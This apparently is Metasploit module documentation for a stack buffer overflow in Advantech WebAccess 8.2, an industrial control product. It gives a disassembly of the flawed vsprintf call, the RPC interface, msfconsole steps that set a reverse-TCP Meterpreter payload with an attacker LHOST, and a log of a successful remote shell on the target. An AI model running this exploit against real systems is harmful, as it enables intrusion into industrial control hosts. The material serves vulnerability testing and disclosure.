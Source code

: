 ## Vulnerable Application

  [Advantech WebAccess <= 8.2](http://advcloudfiles.advantech.com/web/Download/webaccess/8.2/AdvantechWebAccessUSANode8.2_20170330.exe)

## Vulnerability Analysis

The stack overflow happens in sub_10004BC8:

```
.text:10004BC8 ; int __cdecl sub_10004BC8(char *Format, char)
.text:10004BC8 sub_10004BC8    proc near               ; 
.text:10004BC8                                         ;
.text:10004BC8
.text:10004BC8 lpWindowName    = dword ptr -818h
.text:10004BC8 hWnd            = dword ptr -814h
.text:10004BC8 lpClassName     = dword ptr -810h
.text:10004BC8 Args            = dword ptr -80Ch
.text:10004BC8 lpBaseAddress   = dword ptr -808h
.text:10004BC8 hFileMappingObject= dword ptr -804h
.text:10004BC8 Dest            = byte ptr -800h
.text:10004BC8 Format          = dword ptr  8
.text:10004BC8 arg_4           = byte ptr  0Ch
.text:10004BC8
.text:10004BC8                 push    ebp
.text:10004BC9                 mov     ebp, esp
.text:10004BCB                 sub     esp, 818h
.text:10004BD1                 mov     [ebp+lpWindowName], offset aDebugScreen1    ; "Debug Screen1"
.text:10004BDB                 mov     [ebp+lpClassName], offset aDebugwclass1     ; "debugWClass1"
.text:10004BE5                 lea     eax, [ebp+arg_4]
.text:10004BE8                 mov     [ebp+Args], eax
.text:10004BEE                 mov     ecx, [ebp+Args]
.text:10004BF4                 push    ecx                                         ; Args
.text:10004BF5                 mov     edx, [ebp+Format]
.text:10004BF8                 push    edx                                         ; Format
.text:10004BF9                 lea     eax, [ebp+Dest]
.text:10004BFF                 push    eax                                         ; Dest
.text:10004C00                 call    ds:vsprintf                                 ; overflow
```

The corresponding IDL is below:

```
[
 uuid(5d2b62aa-ee0a-4a95-91ae-b064fdb471fc),
 version(1.0)
]

interface target_interface
{

/* opcode: 0x01, address: 0x00401260 */

void sub_401260 (
 [in] handle_t  arg_1,
 [in] long  arg_2,
 [in] long  arg_3,
 [in] long  arg_4,
 [in][ref][size_is(arg_4)] char * arg_5,
 [out][ref] long * arg_6
);

}
```

## Verification Steps

  1. Start `msfconsole`
  2. `use exploits/windows/scada/advantech_webaccess_webvrpcs_bof`
  3. `set payload windows/meterpreter/reverse_tcp`
  4. `set LHOST XXX.XXX.XXX.XXX`
  5. `exploit`
  6. **Verify** you get a connect back meterpreter


## Options

  None.

## Scenarios

  ```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/advantech.rc 
[*] Processing scripts/advantech.rc for ERB directives.
resource (scripts/advantech.rc)> use exploit/windows/scada/advantech_webaccess_opcode_80061
resource (scripts/advantech.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (scripts/advantech.rc)> set RHOST 172.16.175.145
RHOST => 172.16.175.145
resource (scripts/advantech.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/advantech.rc)> exploit
[*] Started reverse TCP handler on 172.16.175.1:4444 
[*] 172.16.175.145:4592 - Binding to 5d2b62aa-ee0a-4a95-91ae-b064fdb471fc:1.0@ncacn_ip_tcp:172.16.175.145[4592] ...
[*] 172.16.175.145:4592 - Bound to 5d2b62aa-ee0a-4a95-91ae-b064fdb471fc:1.0@ncacn_ip_tcp:172.16.175.145[4592] ...
[+] 172.16.175.145:4592 - Got a handle: 0x01d729e0
[*] 172.16.175.145:4592 - Trying target Advantech WebAccess <= 8.2...
[*] Sending stage (957487 bytes) to 172.16.175.145
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.145:49351) at 2017-05-31 14:38:13 -0500
[*] 172.16.175.145:4592 - The DCERPC service did not reply to our request

meterpreter > shell
Process 5208 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\WebAccess\Node>
```
